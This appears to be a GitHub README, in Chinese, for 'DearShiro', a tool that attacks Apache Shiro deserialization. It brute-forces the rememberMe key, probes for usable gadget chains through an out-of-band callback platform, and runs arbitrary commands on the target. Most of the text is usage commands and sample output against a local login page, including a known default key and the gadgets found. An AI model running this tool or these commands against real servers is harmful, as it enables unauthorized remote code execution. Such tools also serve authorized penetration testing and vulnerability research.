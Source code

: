 # DearShiro

## Start

**一个不万能的Shiro扫描工具**

人类低质量代码，就当练个手。

目前已完成:
- Key的探测
- 可用Gadget的探测
- 利用Gadget执行命令


后续todo:
- 图形化？
- 修复某些未知BUG

工具内置Gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2
- CommonsCollectionsK3
- CommonsCollectionsK4

修改默认key列表：修改`resouces`文件夹下的`key`文件然后重新打包即可。

由于探测Gadget使用了ceye平台，所以需要把`config.properties`文件夹中的token和identifier修改成自己的信息，然后重新打包即可。

## Usage

```python
❯ java -jar dearshiro.jar --help

Usage: <main class> [options]
  Options:
  * -m, --module
      module
  * -b, --baseurl
      baseurl
    -k, --key
      key
      Default: kPH+bIxk5D2deZiIxcaaaA==
    -g, --gadget
      gadget
      Default: NoCC
    -c, --command
      command
      Default: open -a Calculator
    --help


java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]
# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}
# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}
# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

本地测试：

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########
```
